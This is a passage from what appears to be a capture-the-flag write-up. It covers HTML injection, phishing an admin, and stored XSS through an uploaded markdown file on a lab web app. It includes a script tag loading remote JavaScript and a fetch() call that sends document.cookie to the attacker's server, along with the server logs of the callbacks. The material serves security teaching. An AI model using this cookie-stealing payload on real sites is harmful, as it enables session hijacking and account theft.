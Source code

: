 I’ll start a Python webserver (`python -m http.server 80`) and upload this file. The viewer pops an alert:

![image-20250319121617477](/img/image-20250319121617477.png)

There’s also two requests at my Python webserver showing the HTML injection and XSS worked:

```
10.10.14.6 - - [19/Mar/2025 18:27:22] code 404, message File not found
10.10.14.6 - - [19/Mar/2025 18:27:22] "GET /image.png HTTP/1.1" 404 -
10.10.14.6 - - [19/Mar/2025 18:27:22] code 404, message File not found
10.10.14.6 - - [19/Mar/2025 18:27:22] "GET /script.js HTTP/1.1" 404 -

```

#### Phishing POC

I’ll see if I can get the admin to click on a link in a contact message.

![image-20250319122259981](/img/image-20250319122259981.png)

Immediately on sending this, there’s contact at my Python webserver:

```
10.10.11.44 - - [19/Mar/2025 18:34:29] code 404, message File not found
10.10.11.44 - - [19/Mar/2025 18:34:29] "GET /phish HTTP/1.1" 404 -

```

The admin is clicking.

#### XSS POC

I’ll update the markdown file (removing the `alert` as I don’t want that to make noise or get stuck with any kind of bot checking the page):

```

### load script
<script src="http://10.10.14.6/script.js"></script>

```

I’ll create a simple `script.js` file in the same directory as the Python webserver:

```

fetch('http://10.10.14.6/from_script/' + document.cookie);

```

This will just make a web request to my server. I haven’t seen any cookies on the site, but worth seeing if there’s anything I can exfil.

I’ll upload the markdown to the site, and send the link to the admin:

![image-20250319121919320](/img/image-20250319121919320.png)
